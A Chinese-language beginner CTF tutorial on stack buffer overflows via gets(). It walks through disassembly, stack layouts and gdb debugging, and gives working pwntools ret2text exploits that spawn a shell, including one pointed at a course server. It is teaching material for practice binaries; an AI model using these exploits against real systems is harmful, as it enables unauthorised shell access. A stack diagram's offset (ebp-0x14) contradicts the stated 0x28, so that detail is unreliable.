


我猜你开始不想看了,别着急,我们直接看关键处:

```assembly
 8049214:       8d 45 d8                lea    -0x28(%ebp),%eax
 8049217:       50                      	  push   %eax
 8049218:       e8 13 fe ff ff          call   8049030 <gets@plt>
 804921d:       83 c4 10                add    $0x10,%esp
 8049220:       90                      	  nop
 8049221:       8b 5d fc                mov    -0x4(%ebp),%ebx
 8049224:       c9                      	  leave  
 8049225:       c3                      	  ret    
```

我们可以看到
```assembly
lea 		-028(%ebp), %eax   ;将某字符串地址传给%eax寄存器
push	 %eax							  ;将%eax中的值压入栈中,作为下一个函数gets()的参数
call		8049030<gets@plt>;调用gets()
```
这三句话首先传参,然后调用函数,然后程序释放栈并返回.该字符串距离ebp的长度为0x28,对应的栈结构为:

```plain
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x28-->+-----------------+
```

接着我们继续查找pwn()函数的地址,其地址为0x08049182.
```assembly
08049182 <pwn>:
 8049182:       55                      push   %ebp
 8049183:       89 e5                   mov    %esp,%ebp
 8049185:       53                      push   %ebx
 8049186:       83 ec 04                sub    $0x4,%esp
 8049189:       e8 b4 00 00 00          call   8049242 <__x86.get_pc_thunk.ax>
 804918e:       05 72 2e 00 00          add    $0x2e72,%eax
 8049193:       83 ec 0c                sub    $0xc,%esp
 8049196:       8d 90 08 e0 ff ff       lea    -0x1ff8(%eax),%edx
 804919c:       52                      push   %edx
 804919d:       89 c3                   mov    %eax,%ebx
 804919f:       e8 ac fe ff ff          call   8049050 <system@plt>
 80491a4:       83 c4 10                add    $0x10,%esp
 80491a7:       90                      nop
 80491a8:       8b 5d fc                mov    -0x4(%ebp),%ebx
 80491ab:       c9                      leave  
 80491ac:       c3                      ret   
```

加入我们输入的字符串为:`0x28 * 'a' + 'bbbb' + pwn_addr`,那么由于gets只有读到回车才停,所以这一段字符串会把saved_ebp覆盖为bbbb,将ret_addr覆盖为pwn_addr,那么,此时栈的结构为:

```plain
                                           +-----------------+
                                           |    0x08049182   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

> 注:
>
> > 前面提到,在内存中,每个值按照字节存储.一般都是按照小端存储,所以0x08049182在内存中的形式为

```plain
\x82\x91\x04\x08
```

&emsp;&emsp;很明显,按照ASCII表,这几个字符是不可见的(0x82 0x91 0x04 0x08 这几个老哥在ascii表中的值请自行查看对照)

那么问题来了,怎么才能把这这种不可见字符输进去呢,莫非要买高级键盘?_?,这个时候我们就可以用pwntools了,pwntools是一个很好用的python2的库,专门帮你干坏事.

利用代码如下:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互

```

然后我们执行一下这个命令:

```sh
root@Aurora:/home/code/pwn/challenge/1 # ./a.py
[+] Starting local process './a': pid 10160
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  62 62 62 62  82 91 04 08  │aaaa│aaaa│bbbb│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x33 bytes:
    "Hello,I'm dyf.\n"
    '\n'
    'QAQ\n'
    '\n'
    'Do you have something to say?\n'
Hello,I'm dyf.

QAQ

Do you have something to say?
$ 
```

可以看到我们已经返回了shell,这意味着我们拿到了这台机器的控制权限,加入这个程序的owner是root的话,我们就会获得root权限.

这个时候,按照传统,我们要输入一条神圣的指令来证明我们的身份:

```sh
> whoami
```



&emsp;&emsp;很酷是不是,一下子就获得上帝的权限,root就是linux中的上帝,掌握一切生杀大权,到此为止,你已经拿下了你的第一台主机了.

接下来我会把之前提到的那个样例程序放到服务器上供你们娱乐,你么可以尝试练习一下.

关于exp连接远端的方式:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = romote('202.204.62.222',30008) # 只需要修改这一句话,填写对应的ip地址和端口 remote('ip', port)
#sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互
```


最后来介绍一下动态调试技巧,主要是关于gdb的使用.我相信8成的人写代码仍然使用十分复古的调试方法:

- 放置调试法:什么也不做等着bug消失
- 再来一次调试法: 一定是编译器坏了,重新编译一次等bug消失
- 玄学调试法: 随便改两个地方,用命运的力量消除bug
- 放弃调试法: 洗洗睡了

以上调试方法比较传统,而且操作难度教较大,下面我们来介绍一下很简单的gdb调试法.

&emsp;&emsp;gdb(GNU Debugger)是所有调试器的爸爸,他的功能十分强大,可以跟踪堆栈,查看内存,打印寄存器,下断点等等,我们只讲以下基本技巧:

1. 下断点
2. 查看内存
3. 打印寄存器
4. 查看反汇编执行

&emsp;&emsp;我们仍然用个栗子讲解,首先下载并打开[附件](https://github.com/Explainaur/USTB_Assembly_Documention/raw/master/src/example_2/ret2text)ret2text,然后你可以输入`ls`命令查看一下这个文件是不是绿色的,如果不是则说明没有可执行权限,你需要输入以下命令对其进行原谅:

```sh
chmod +x ret2txt
```

&emsp;&emsp;这个时候他应该已经被原谅了,我们查看一下他的保护措施:

```sh
root@Aurora:~/文档/doc/src/example_2(master⚡) # checksec ret2text 
[*] '/root/\xe6\x96\x87\xe6\xa1\xa3/doc/src/example_2/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

&emsp;&emsp;可以看到这是一个32位程序,只开启了NX保护(Not Executable 栈不可执行),下面进行逆向分析.

```assembly
08048648 <main>:
 8048648:       55                      push   %ebp
 8048649:       89 e5                   mov    %esp,%ebp
 804864b:       83 e4 f0                and    $0xfffffff0,%esp
 804864e:       83 c4 80                add    $0xffffff80,%esp
 8048651:       a1 60 a0 04 08          mov    0x804a060,%eax
 8048656:       c7 44 24 0c 00 00 00    movl   $0x0,0xc(%esp)
 804865d:       00 
 804865e:       c7 44 24 08 02 00 00    movl   $0x2,0x8(%esp)
 8048665:       00 
 8048666:       c7 44 24 04 00 00 00    movl   $0x0,0x4(%esp)
 804866d:       00 
 804866e:       89 04 24                mov    %eax,(%esp)
 8048671:       e8 5a fe ff ff          call   80484d0 <setvbuf@plt>
 8048676:       a1 40 a0 04 08          mov    0x804a040,%eax
 804867b:       c7 44 24 0c 00 00 00    movl   $0x0,0xc(%esp)
 8048682:       00 
 8048683:       c7 44 24 08 01 00 00    movl   $0x1,0x8(%esp)
 804868a:       00 
 804868b:       c7 44 24 04 00 00 00    movl   $0x0,0x4(%esp)
 8048692:       00 
 8048693:       89 04 24                mov    %eax,(%esp)
 8048696:       e8 35 fe ff ff          call   80484d0 <setvbuf@plt>
 804869b:       c7 04 24 6c 87 04 08    movl   $0x804876c,(%esp)
 80486a2:       e8 d9 fd ff ff          call   8048480 <puts@plt>
 80486a7:       8d 44 24 1c             lea    0x1c(%esp),%eax
 80486ab:       89 04 24                mov    %eax,(%esp)
 80486ae:       e8 ad fd ff ff          call   8048460 <gets@plt>
 80486b3:       c7 04 24 a4 87 04 08    movl   $0x80487a4,(%esp)
 80486ba:       e8 91 fd ff ff          call   8048450 <printf@plt>
 80486bf:       b8 00 00 00 00          mov    $0x0,%eax
 80486c4:       c9                      leave  
 80486c5:       c3                      ret    
```

&emsp;&emsp;还原一下大概就是:

```c
int main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets((char *)&v4);
  printf("Maybe I will tell you next time !");
  return 0;
}

```

&emsp;&emsp;可以看到十分明显的gets()函数,然后我们又发现secure()函数存在`system("/bin/sh")`:

```assembly
 804863a:       c7 04 24 63 87 04 08    movl   $0x8048763,(%esp)   ;这里传递参数 "/bin/sh" 复习一下传参方式哦
 8048641:       e8 4a fe ff ff          call   8048490 <system@plt>
 8048646:       c9                      leave  
 8048647:       c3                      ret    
```

&emsp;&emsp;假如我们可以返回到0x804863a似乎就可以直接getshell了,下面我们就分析如何构造payload,首先要确定padding的长度.

> padding就是我们所能控制的内存到返回值的距离内所填充的垃圾数据,就是上个例子里一堆aaaaaaaa

&emsp;&emsp;通过分析汇编代码我们发现事情并不简单:

```assembly
 80486a7:       8d 44 24 1c             lea    0x1c(%esp),%eax
 80486ab:       89 04 24                mov    %eax,(%esp)
 80486ae:       e8 ad fd ff ff          call   8048460 <gets@plt>
```

&emsp;&emsp;不知是用了什么妖术,这个变量居然是根据esp来进行寻址的...众所周知esp是随时变化的,因此我们就需要动态调试,算一下变量距离ebp的偏移.输入一下命令启动gdb:

```sh
> gdb ret2text
# 进来之后输入start启动程序
gdb> start
```



&emsp;&emsp;你会看到你的gdb跟我的一比简直low爆了...这是因为我装了插件,诸位暂时还是不要安装插件,因为你对gdb还不够熟悉,如果十分想要模仿我的话可以安装peda或者pwndbg.

```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

&emsp;&emsp;接下来输入`disas`可以看到即将会执行的汇编指令:

```assembly
gef➤  disas
Dump of assembler code for function main:
   0x08048648 <+0>:     push   ebp
   0x08048649 <+1>:     mov    ebp,esp
   0x0804864b <+3>:     and    esp,0xfffffff0
   0x0804864e <+6>:     add    esp,0xffffff80
=> 0x08048651 <+9>:     mov    eax,ds:0x804a060
   0x08048656 <+14>:    mov    DWORD PTR [esp+0xc],0x0
   0x0804865e <+22>:    mov    DWORD PTR [esp+0x8],0x2
   0x08048666 <+30>:    mov    DWORD PTR [esp+0x4],0x0
   0x0804866e <+38>:    mov    DWORD PTR [esp],eax
   0x08048671 <+41>:    call   0x80484d0 <setvbuf@plt>
   0x08048676 <+46>:    mov    eax,ds:0x804a040
   0x0804867b <+51>:    mov    DWORD PTR [esp+0xc],0x0
   0x08048683 <+59>:    mov    DWORD PTR [esp+0x8],0x1
   0x0804868b <+67>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048693 <+75>:    mov    DWORD PTR [esp],eax
   0x08048696 <+78>:    call   0x80484d0 <setvbuf@plt>
   0x0804869b <+83>:    mov    DWORD PTR [esp],0x804876c
   0x080486a2 <+90>:    call   0x8048480 <puts@plt>
   0x080486a7 <+95>:    lea    eax,[esp+0x1c]
   0x080486ab <+99>:    mov    DWORD PTR [esp],eax
   0x080486ae <+102>:   call   0x8048460 <gets@plt>
   0x080486b3 <+107>:   mov    DWORD PTR [esp],0x80487a4
   0x080486ba <+114>:   call   0x8048450 <printf@plt>
   0x080486bf <+119>:   mov    eax,0x0
   0x080486c4 <+124>:   leave  
   0x080486c5 <+125>:   ret    
```

&emsp;&emsp;若安装了插件输入`register`指令可以查看寄存器信息:

```sh
gef➤  register
$eax   : 0xf7f90dc8  →  0xffffd0cc  →  0xffffd2cc  →  "CLUTTER_IM_MODULE=fcitx"
$ebx   : 0x0       
$ecx   : 0xcab951ef
$edx   : 0xffffd054  →  0x00000000
$esp   : 0xffffcfa0  →  0x00000000
$ebp   : 0xffffd028  →  0x00000000
$esi   : 0xf7f8f000  →  0x001d9d6c
$edi   : 0xf7f8f000  →  0x001d9d6c
$eip   : 0x08048651  →  <main+9> mov eax, ds:0x804a060
$eflags: [zero CARRY PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
gef➤  
```
&emsp;&emsp;若没有安装插件则使用`print $eax`打印相关寄存器信息.
&emsp;&emsp;接着输入n或者s可以单步进行调试,他们的区别是:

- n: 假如有函数调用的话,会直接执行完毕该函数,然后继续单步执行
- s: 假如有函数调用的话,会进入函数然后继续单步执行

&emsp;&emsp;好的,我们可以一路按n跑到关键位置,也可以在关键位置下断点然后让程序停在那里:

```sh
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24      gets(buf);
────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

&emsp;&emsp;这里我们看到esp是 0xffffcd40,ebp 为具体的 payload 如下 0xffffcdc8，同时 s 相对于 esp 的索引为 `[esp+0x1c]`，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

exp如下:

```python
#!/usr/bin/python2
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

&emsp;&emsp;现在你已经稍微入点高级编程门了.

&emsp;&emsp;如果你对pwn也感兴趣的话可以去[校内ctf练习平台](http://ustb.ever404.com/challenges)上玩一玩(题目很久没更新了...最近更新一下qaq)

---

#### 关于作者及作者内心os

&emsp;&emsp;信安1802某爱猫人士,安全研究员,梦想成为Computer Artist并养一屋子猫

&emsp;&emsp;当你读到这段话的时候...十有八九是前面读不下去了,直接跳到最后看看还有多少...

&emsp;&emsp;我还是要讲几句鼓励你的话:


​												加油,你真棒!


&emsp;&emsp;

&emsp;&emsp;如果你对本文档持任何异议,请纠缠我的基友原计1805戏曲爱好者孙某.

> PS: 如果你也是爱猫人士或者对计算机安全感兴趣,欢迎与各位大佬交流 (CTF缺队友...qaq
>
> 欢迎Follow我的[github](https://github.com/Explainaur) ^_^